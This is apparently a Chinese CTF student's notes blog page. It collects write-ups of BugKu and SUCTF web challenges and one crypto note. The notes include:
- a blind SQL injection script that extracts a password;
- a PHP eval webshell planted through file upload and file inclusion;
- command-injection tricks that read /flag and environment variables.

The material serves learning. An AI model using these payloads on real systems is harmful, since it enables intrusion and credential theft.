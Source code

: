 ```yaml
---
title: 错题wp集
toc: true
date: 2021-04-22 14:57:37
tags: CTF
categories: [100 Cyber security, 120 CTF, 121 Web ]
---
```



### Web

#### SUCTF 2019 EasySQL
https://blog.csdn.net/qq_43619533/article/details/103434935
    *  考点： 通过输入非零数字得到的回显1和输入其余字符得不到回显来判断出内部的查询语句可能存在有||
#### BugKu web 21
https://blog.csdn.net/qq_41333578/article/details/92759619
    *  考点： 弱比较的绕过; PHP伪协议php://input如何输入请求主体; eregi绕过的两种方式; 注意`\x00`会截断后续内容，而%00不会。
#### BugKu 冬至红包
https://blog.csdn.net/qq_46230755/article/details/112973722
    *  考点： 新姿势
#### BugKu web18
https://ctf.bugku.com/challenges/detail/id/85.html
    *  考点：爬虫复习、利用eval()直接计算string内的数字公式、利用同一个Session进行get和post请求，防止网页动态刷新计算值失效、post请求中data注意格式为{‘somevtext’：’somevalue’}、python和PHP的计算方式不太一样，可能存在计算偏差导致得不到flag，需要重复发送几次。
    ```
import requests
from bs4 import BeautifulSoup

url = 'http://114.67.246.176:14925/'

s = requests.session()

r = s.get(url)
# 这里要根据网页的编码来设置解码，这个目标网站编码为'utf-8'
r.encoding = 'utf-8'
soup=BeautifulSoup(r.text,'lxml')
data=soup.select('div')
for item in data:
    #获取原文为804134448*284526014-53361872*1933492032+466213037-393751154*4253881+1224286171-1203351395*1548147628+1689398514=?;
    result=item.get_text()

result1=result[0:len(result)-3] #去掉后三位‘=?;’

result2 = eval(result1) #计算数值

result3={'value':result2} #添加post请求数据格式

mssg=s.post(url, data=result3) #利用同一个session，防止网页刷新。

print(mssg.text)
    ```
#### BugKu Web 32
题目：文件上传;My name is margin,give me a image file not a php

* 解题思路：文件上传漏洞，掏出上传fuzz试试看。
  fuzz没过，看评论说是把multipart/form-data;修改成Content-Type: mulTipart/form-data; ，然后修改php文件为php4，竟然还有这种操作，学到了。

#### BugKu Web 33
提示：
```
Flag:{xxx}
fR4aHWwuFCYYVydFRxMqHhhCKBseH1dbFygrRxIWJ1UYFhotFjA=
 // }l.&W'EG*B(W[(+G'U-0
```
题目：
```
<?php
function encrypt($data,$key)
{
    $key = md5('ISCC');
    $x = 0;
    $len = strlen($data);
    $klen = strlen($key);
    for ($i=0; $i < $len; $i++) {
        if ($x == $klen)
        {
            $x = 0;
        }
        $char .= $key[$x];
        $x+=1;
    }
    for ($i=0; $i < $len; $i++) {
        $str .= chr((ord($data[$i]) + ord($char[$i])) % 128);
    }
    return base64_encode($str);
}
?>
```

* 解题思路：在线解base64的时候还没注意到，复制下来才发现还有特殊字符。`.=`连接赋值运算符，将右边参数附加到左边的参数之后。完整的看了一遍代码，发现应该是得到提示的base64字符串的算法。懒得配环境，对PHP一直是只会读代码不会写应用的状态，干脆在网上找了找PHP在线运行网站。试着运行了一下原算法用不同的数字和字母输入data内容。
根据提示中的base64推断，data长度为20。
逆推写了一下获取data的源码：
```
<?php
$str='fR4aHWwuFCYYVydFRxMqHhhCKBseH1dbFygrRxIWJ1UYFhotFjA=';
$str_decode = base64_decode($str);
$len1=strlen($str_decode);

$key = md5('ISCC');  # 729623334f0aa2784a1599fd374c120d
$klen = strlen($key);
$char = '';
$data = '';
for ($i=0; $i < $len1; $i++) {
        if ($x == $klen)
        {
            $x = 0;
        }
        $char .= $key[$x]; # 729623334f0aa2784a1599fd374c120d729623
        $x+=1;
    }
# print($len1); -> 38
# print($char); -> 729623334f0aa2784a1599fd374c120d729623
for ($i=0; $i < $len1; $i++) {
        $data .= chr((ord($str_decode[$i])+128)-ord($char[$i]));
    }
print($data);    
?>
```
得到结果：lag{asdqwdfasfdawfefqwdqwdadwqadawd}，提示里写了Flag:{xxx}，所以把结果改成Flag:{asdqwdfasfdawfefqwdqwdadwqadawd}，结果正确。

#### BugKu Web 34
提示：文件包含

* 解题思路：既然是文件包含，一开始上来就先试试file=php://input(<?php phpinfo();?>)，提示NAIVE，不管，反正方向是对了，开burp传包才看到这个页面有个隐藏的upload.php，点进去发现是个上传点。结合apache的版本和PHP版本，没啥直接上传shell利用的机会。那就只能上传成jpg的格式，然后用文件包含去利用。http://114.67.246.176:14764/index.php?file=upload/202105140715558770.jpg，打开之后发现提示`_ @eval($_POST['shell']);_`，显然是过滤了<?php?>，换成<script>。`<script language=php>echo 'a'; eval($_POST['pass']);</script>`
这题不错，把我一直以来没有联合使用的两种手法彻底试了试。

#### BugKu Web 36
提示： !,!=,=,+,-,^,%
      全都过滤了绝望吗？

* 解题思路：先跑bp看看关键词屏蔽情况，or和空格过滤了，--也过滤了，替代or的||也未曾幸免,()没有过滤。参考提示，!,!=,=,+,-,^,% （构造的url转码注入）没有被过滤，那么用+替代空格，利用！=构造用户名注入，`amdin'+‘1’！=‘2`，返回`password error`，也就是说这个绕过成功但没有注释掉密码。
这里照抄WP的盲注：ref https://wxt123.top/2021/01/22/Bugku%20Web%E6%80%BB%E7%BB%93(%E6%8C%81%E7%BB%AD%E6%9B%B4%E6%96%B0ing)/#Web-36
```
# -*- coding: utf-8 -*-
import requests

session = requests.Session()
url="http://114.67.246.176:12012/login.php"
flag=''
for i in range(1,250):
        left=32
        right=128
        mid=(left+right)//2
        while(left<right):
                payload="admin'^((ascii(mid((select(group_concat(passwd)))from(%s)))>%s))^'1"%(i,mid)
                data = {'uname': payload, 'passwd': 'admin'}
                res = requests.post(url, data=data)
                if 'password' in res.text:
                        left=mid+1
                else:
                        right=mid
                mid=(left+right)//2
        if(mid==32 or mid==127):
                break
        flag=flag+chr(mid)
        print(flag)
```
进去之后是个命令执行框，这里要怒翻文件包含里记下的笔记，利用<代替空格，cat</flag，（加.php会被过滤）
再记几个可以用的方式：
    * env :用于输出系统环境变量，这道题中系统环境变量中有flag；
    * {echo,$FLAG}：也是输出系统环境变量，但是只输出$FLAG一个变量
    * {cat,/flag}：绕过空格限制，读取根目录下flag文件；
    * cat</flag：绕过空格限制，
    * cat<>/flag：绕过空格限制；
    * a=$‘\x20/flag’&&cat$a：\x20转换为字符串就是空格;
再做个关于fuzz后台登录密码的注入笔记：
    * 判断密码长度：uname=admin'^(length(passwd)=32)^'，逐一递增，并根据32位猜测密码为MD5。
    * 判断密码每一位字符：uname=admin'^(ascii(substr((passwd)from(1))=52)^'

### Crypto
1. python(N1CTF)
解题思路：ref:https://blog.csdn.net/crisprx/article/details/107178198
自己写了好久，还是没写对，看了别人的WP，重点还是在对于Feistel加密结构的了解吧。虽然思路是对了，想办法利用原有代码减少重构量，但是还是没抓准关键点。
